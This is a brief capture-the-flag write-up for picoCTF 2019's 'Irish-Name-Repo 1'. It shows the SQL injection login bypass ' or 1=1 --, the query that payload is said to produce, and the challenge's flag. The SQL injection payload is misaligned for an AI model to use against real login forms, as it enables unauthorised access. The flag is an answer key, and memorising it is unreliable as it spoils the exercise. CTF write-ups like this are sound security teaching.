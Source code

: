 # Writeup for picoCTF 2019 : Irish-Name-Repo 1
## Steps:
One of the hints indicate that there's a database and when we try to login we can also see there's a "login.php" at the end of the url when. If we try some common sql injection methods we may be able to pass the login.

`' or 1=1 --`

this causes the application to perform the query:
`SELECT * FROM users WHERE username = ' ' OR 1=1`


## Flag:
```picoCTF{s0m3_SQL_c218b685}```
